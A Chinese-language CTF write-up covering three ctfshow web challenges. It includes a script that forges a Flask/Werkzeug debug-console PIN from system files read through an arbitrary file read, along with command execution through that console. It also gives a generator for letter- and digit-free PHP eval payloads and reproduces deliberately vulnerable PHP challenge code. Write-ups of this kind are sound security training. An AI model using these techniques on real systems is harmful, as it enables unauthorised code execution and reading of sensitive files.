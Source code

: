 ```yaml
---
id: ctfshow-常用姿势
title: ctfshow-常用姿势
---
```




## 801-flask算pin

输入不存在的值使其报错，可以看到是flask开启了debug模式的界面，将鼠标移到任意一行上就可以看到右边有个terminal的标记，点击要我们输入pin码，这个pin码在跑flask的时候会给在终端里



本题考点就是利用任意文件读获取信息再利用脚本来跑出这个pin码

计算pin所需要的值为：

1. username：
   flask所登录的用户名，可以读`/etc/passwd` 或者 `getpass.getuser()`

2. modname：
   默认为flask.app

3. appname：
   默认为Flask
   `getattr(app, “name”, app.class.name)`

4. moddir：
   flask库下app.py的绝对路径，可通过报错得到 或者 `getattr(mod,"__file__",None)`

5. uuidnode：
   当前网络的mac地址的十进制数，读网卡:
   如`/sys/class/net/ens0/address` 或 `/sys/class/net/eth0/address`

6. machine_id：
   docker机器id
   linux的id一般存放于`/etc/machine-id` 或`/proc/sys/kernel/random/boot_id`
   docker的则读取`/proc/self/cgroup`取`/docker/`后的字符


   （但在本题要读`/proc/sys/kernel/random/boot_id`
   和`/proc/self/cgroup`然后将其拼接起来）



脚本附上：

```python
import hashlib
from itertools import chain
probably_public_bits = [
    'root'# /etc/passwd
    'flask.app',# 默认值
    'Flask',# 默认值
    '/usr/local/lib/python3.8/site-packages/flask/app.py' # 报错得到
]

private_bits = [
    '2485377585129',#  /sys/class/net/ens0/address or /sys/class/net/eth0/address
    '653dc458-4634-42b1-9a7a-b22a082e1fce18de34833d56b14e3178cdffe0c6fd87895b75d5affd11b0ff6d8a3340f26d6d'#  /proc/sys/kernel/random/boot_id + /proc/self/cgroup
]

h = hashlib.sha1()
for bit in chain(probably_public_bits, private_bits):
    if not bit:
        continue
    if isinstance(bit, str):
        bit = bit.encode('utf-8')
    h.update(bit)
h.update(b'cookiesalt')

cookie_name = '__wzd' + h.hexdigest()[:20]

num = None
if num is None:
    h.update(b'pinsalt')
    num = ('%09d' % int(h.hexdigest(), 16))[:9]

rv =None
if rv is None:
    for group_size in 5, 4, 3:
        if len(num) % group_size == 0:
            rv = '-'.join(num[x:x + group_size].rjust(group_size, '0')
                          for x in range(0, len(num), group_size))
            break
    else:
        rv = num

print(rv)
```

然后得到一个可交互的：

```
import os
os.popen('cat /flag').read()
```

![](https://s2.loli.net/2022/03/22/cFGjSJgoa8NnOA4.png)





## 802-无子母数字RCE

```php
<?php

# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2022-03-19 12:10:55
# @Last Modified by:   h1xa
# @Last Modified time: 2022-03-19 13:27:18
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

error_reporting(0);
highlight_file(__FILE__);
$cmd = $_POST['cmd'];

if(!preg_match('/[a-z]|[0-9]/i',$cmd)){
    eval($cmd);
}
```

顾名思义就是把字母数字都给过滤掉了

可以利用像异或、自增、取反：`$、+、-、^、~、|`来构造payload

1. [一些不包含数字和字母的webshell | 离别歌 (leavesongs.com)](https://www.leavesongs.com/PENETRATION/webshell-without-alphanum.html)
2. [无字母数字webshell之提高篇 | 离别歌 (leavesongs.com)](https://www.leavesongs.com/PENETRATION/webshell-without-alphanum-advanced.html)
3. [无字母数字绕过正则总结（含上传临时文件、异或、或、取反、自增脚本-羽](https://blog.csdn.net/miuzzx/article/details/109143413)
4. [ctfshow web入门 web41_羽的博客-CSDN博客](https://blog.csdn.net/miuzzx/article/details/108569080)

具体原理不赘述了==，给上群主师傅的脚本吧

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2022-03-19 14:35:44
# @Last Modified by:   h1xa
# @Last Modified time: 2022-03-19 16:41:46
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

*/


$precode=<<<code
\$_=('@'^'!');
\$__=\$_++;
\$___=++\$__;
\$____=++\$___;
\$_____=++\$____;
\$______=++\$_____;
\$_______=++\$______;
\$________=++\$_______;
\$_________=++\$________;
\$__________=++\$_________;
\$___________=++\$__________;
\$____________=++\$___________;
\$_____________=++\$____________;
\$______________=++\$_____________;
\$_______________=++\$______________;
\$________________=++\$_______________;
\$_________________=++\$________________;
\$__________________=++\$_________________;
\$___________________=++\$__________________;
\$____________________=++\$___________________;
\$_____________________=++\$____________________;
\$______________________=++\$_____________________;
\$_______________________=++\$______________________;
\$________________________=++\$_______________________;
\$_________________________=++\$________________________;
\$__________________________=++\$_________________________;
\$_=('@'^'!');
code;

eval($precode);


#使用异或生成任意无字母数字代码
function createCode($code){
	global $precode;
	$ret = "";
	for ($i=0; $i < strlen($code); $i++) { 

		$c = $code[$i];
		if(ord($c)<97 || ord($c)>122){
			$ret .= "$c";
		}else{
			$ret .= '$'.str_repeat('_', ord($c)-96);
		}

		
	}
	return urlencode("$precode(\"".substr($ret,0,stripos($ret, "("))."\")".substr($ret, stripos($ret,"(")));
}


echo createCode('system("tac flag.php");');
```

## 803-phar文件包含



```php
<?php

# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2022-03-19 12:10:55
# @Last Modified by:   h1xa
# @Last Modified time: 2022-03-19 13:27:18
# @email: h1xa@ctfer.com
# @link: https://ctfer.com


error_reporting(0);
highlight_file(__FILE__);
$file = $_POST['file'];
$content = $_POST['content'];

if(isset($content) && !preg_match('/php|data|ftp/i',$file)){
    if(file_exists($file.'.txt')){
        include $file.'.txt';
    }else{
        file_put_contents($file,$content);
    }
}
```


